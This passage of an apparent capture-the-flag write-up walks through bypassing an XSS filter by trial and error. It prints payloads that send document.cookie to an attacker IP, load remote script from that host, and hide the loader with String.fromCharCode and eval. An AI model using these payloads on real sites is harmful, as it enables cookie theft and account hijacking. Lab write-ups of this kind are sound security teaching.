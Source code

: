 ![1567625919678](https://0xdfimages.gitlab.io/img/1567625919678.png)

I started submitting more payloads from various XSS cheat sheets around the internet, and eventually (after a *ton* of trial and error) found this one:

```

<img src="x` `<script>javascript:alert(1)</script>"` `>

```

It gets a bit mangled, but the script tags come through:

![1567627223012](https://0xdfimages.gitlab.io/img/1567627223012.png)

It seems to remove the quotes, but then not mess with the brackets that are between the quotes.

I tried to use `<img src="x` `<script>document.location='http://10.10.14.30/?c='+document.cookie</script>"` `>` to get cookies, but it didn’t work. I noticed in the output that the `'` were all removed:

![1567628085273](https://0xdfimages.gitlab.io/img/1567628085273.png)

I’ll try javascript that writes a script tag that is sourced back to me:

```

<img src="x` `<script>document.write('<script src="http://10.10.14.30/0xdf.js"></script>');</script>"` `>`

```

Again, no love.

I’ll try encoding the inside. First I’ll use `python` to convert it to ints:

```

>>> payload = '''document.write('<script src="http://10.10.14.30/0xdf.js"></script>');'''
>>> ','.join([str(ord(c)) for c in payload])
'100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59'

```

Now I make a payload:

```

<img src="x` `<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>"` `>`

```

That didn’t work either, but after a ton of tinkering, I got this to work, in that I saw a connection on `nc`:
